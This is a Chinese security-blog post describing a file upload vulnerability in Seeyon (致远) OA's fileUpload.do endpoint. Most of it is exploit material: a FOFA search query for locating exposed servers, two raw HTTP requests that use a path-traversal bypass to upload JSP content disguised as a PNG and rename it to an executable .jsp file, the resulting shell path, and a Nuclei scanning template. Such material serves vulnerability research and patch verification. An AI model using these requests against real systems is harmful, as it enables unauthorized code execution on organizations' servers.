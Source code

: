 #  致远互联 OA fileUpload.do 文件上传漏洞   
lcyunkong  云途安全   2024-04-24 12:02  
  
**0x00 阅读须知**  
  
****  
**免责声明：****本文提供的信息和方法仅供网络安全专业人员用于教学和研究目的，不得用于任何非法活动。读者若使用文章内容从事任何未授权的行为，需自行承担所有法律责任和后果。本公众号及作者对由此引起的任何直接或间接损失不负责任。请严格遵守相关法律法规。**  
###   
### 0x01 漏洞简介  
  
  
致远OA  
是一款企业级办公自动化软件，提供了办公流程管理、文档管理、协同办公、知识管理等功能。它可以帮助企业实现信息化办公，提高工作效率和协同能力。该系统fileUpload.do存在文件上传漏洞。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z8DAfzBiajSZHkc78DelKm8BpNmgicbv3WeFEJRBsb250za777sENwibOZxibay9ptTpxBJJ89qoksRhx24np9R4Eg/640?wx_fmt=png&from=appmsg "")  
###   
### 0x02 漏洞详情  
  
****  
**fofa：****app="FE-协作平台" || title="协同管理软件 V5.6SP1"**  
  
  
**Poc：**  
```
POST /seeyon/autoinstall.do/../../seeyon/fileUpload.do?method=processUpload HTTP/1.1
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: multipart/form-data; boundary=skdHHhNHjhnUgerSexsksboundary
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN) AppleWebKit/523.15 (KHTML, like Gecko, Safari/419.3) Arora/0.3 (Change: 287 c9dfb30)

--skdHHhNHjhnUgerSexsksboundary
Content-Disposition: form-data; name="type"


--skdHHhNHjhnUgerSexsksboundary
Content-Disposition: form-data; name="extensions"

png
--skdHHhNHjhnUgerSexsksboundary
Content-Disposition: form-data; name="applicationCategory"


--skdHHhNHjhnUgerSexsksboundary
Content-Disposition: form-data; name="destDirectory"


--skdHHhNHjhnUgerSexsksboundary
Content-Disposition: form-data; name="destFilename"


--skdHHhNHjhnUgerSexsksboundary
Content-Disposition: form-data; name="maxSize"


--skdHHhNHjhnUgerSexsksboundary
Content-Disposition: form-data; name="isEncrypt"

false
--skdHHhNHjhnUgerSexsksboundary
Content-Disposition: form-data; name="file1"; filename="1.png"
Content-Type: Content-Type: application/pdf

<% out.println("hello test");%>
--skdHHhNHjhnUgerSexsksboundary--

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z8DAfzBiajSZHkc78DelKm8BpNmgicbv3WRvm4XIyu9iafTSsnpq0IYbEEtTvPPQHtUuuSnuAQrXdKMFyDYicbia60Q/640?wx_fmt=png&from=appmsg "")  
```
POST /seeyon/autoinstall.do/../../seeyon/privilege/menu.do HTTP/1.1
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0; Acoo Browser; SLCC1; .NET CLR 2.0.50727; Media Center PC 5.0; .NET CLR 3.0.04506)

method=uploadMenuIcon&fileid=7866719621757354789&filename=a123.jsp
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z8DAfzBiajSZHkc78DelKm8BpNmgicbv3W2GcHp9XDMQ6wonYn5Ktx6Bsb3Kpr4CiaNPAKC7EWaD4ZM7O8n1wQlRw/640?wx_fmt=png&from=appmsg "")  
  
**路径：**  
/seeyon/main/menuIcon/a123.jsp  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z8DAfzBiajSZHkc78DelKm8BpNmgicbv3WeCMODsz8vRGf7HnhibH7AyR9NCwADrsbbfHkhoGJCFtWZlrXsicSnzyw/640?wx_fmt=png&from=appmsg "")  
  
**0x03 Nuclie**  
  
```
id: zhiyuanOA-fileUpload-fileupload

info:
  name: zhiyuanOA-fileUpload-fileupload
  author: unknown
  severity: high
  description: 致远互联 OA fileUpload.do 文件上传漏洞
  tags: zhiyuanOA,fileupload

http:
  - raw:
      - |
        POST /seeyon/autoinstall.do/../../seeyon/fileUpload.do?method=processUpload HTTP/1.1
        Host: {{Hostname}}
        Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
        Content-Type: multipart/form-data; boundary=skdHHhNHjhnUgerSexsksboundary
        User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN) AppleWebKit/523.15 (KHTML, like Gecko, Safari/419.3) Arora/0.3 (Change: 287 c9dfb30)
        Content-Length: 854

        --skdHHhNHjhnUgerSexsksboundary
        Content-Disposition: form-data; name="type"


        --skdHHhNHjhnUgerSexsksboundary
        Content-Disposition: form-data; name="extensions"

        png
        --skdHHhNHjhnUgerSexsksboundary
        Content-Disposition: form-data; name="applicationCategory"


        --skdHHhNHjhnUgerSexsksboundary
        Content-Disposition: form-data; name="destDirectory"


        --skdHHhNHjhnUgerSexsksboundary
        Content-Disposition: form-data; name="destFilename"


        --skdHHhNHjhnUgerSexsksboundary
        Content-Disposition: form-data; name="maxSize"


        --skdHHhNHjhnUgerSexsksboundary
        Content-Disposition: form-data; name="isEncrypt"

        false
        --skdHHhNHjhnUgerSexsksboundary
        Content-Disposition: form-data; name="file1"; filename="AdsjkHjhggc_adf.png"
        Content-Type: Content-Type: application/pdf

        <% out.println("hello test");%>
        --skdHHhNHjhnUgerSexsksboundary--

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - AdsjkHjhggc_adf.png
      - type: word
        part: body
        words:
          - fileurls=fileurls
      - type: status
        status:
          - 200
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z8DAfzBiajSZHkc78DelKm8BpNmgicbv3WKtjic3IbkJIwsBmHFYia6ic0DDwkjRticOjibPLWl3WCCgzBdzDc8LRUazA/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
